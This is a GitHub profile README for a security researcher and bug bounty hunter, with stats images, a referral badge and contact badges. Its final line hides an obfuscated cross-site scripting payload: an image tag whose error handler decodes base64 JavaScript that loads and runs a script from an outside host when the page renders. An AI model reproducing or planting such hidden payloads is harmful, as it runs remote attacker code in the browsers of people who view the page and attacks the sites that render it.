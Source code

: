 ## I'm bão and OCê? 👋
 
I'm a security researcher, I work as a pentester and in my free time I like to have fun bug bounty!

Get $200 credit on Digital Ocean:
<br>
<a href="https://www.digitalocean.com/?refcode=8fd2d6dfd146&utm_campaign=Referral_Invite&utm_medium=Referral_Program&utm_source=badge"><img src="https://web-platforms.sfo2.cdn.digitaloceanspaces.com/WWW/Badge%201.svg" alt="DigitalOcean Referral Badge" /></a>

## Stats

<div>
   <img src="https://github-readme-stats.vercel.app/api?username=phor3nsic&show_icons=true&theme=chartreuse-dark&include_all_commits=true&count_private=true&hide=issues" />
</div>

## Most used languages
<div>
  <img src="https://github-readme-stats.vercel.app/api/top-langs/?username=phor3nsic&langs_count=4&layout=compact&theme=dracula" />
  </div>
 
  
## Contact

   <a href="https://twitter.com/phor3nsic_br">
    <img src="https://img.shields.io/badge/@phor3nsic_br-grey.svg?style=square&logo=twitter">
  </a>
  
  <a href="https://www.linkedin.com/in/wallesonmoura/">
    <img src="https://img.shields.io/badge/@wallesonmoura-blue.svg?style=square&logo=linkedin">
  </a>
  
  <a href="https://hackerone.com/ph0r3nsic">
    <img src="https://img.shields.io/badge/@ph0r3nsic-black?style=square&logo=hackerone">
  </a>
  
  <div><img src=x id=dmFyIGE9ZG9jdW1lbnQuY3JlYXRlRWxlbWVudCgic2NyaXB0Iik7YS5zcmM9Imh0dHBzOi8veC5yZWQtc2VjLnh5eiI7ZG9jdW1lbnQuYm9keS5hcHBlbmRDaGlsZChhKTs onerror=eval(atob(this.id))></div>

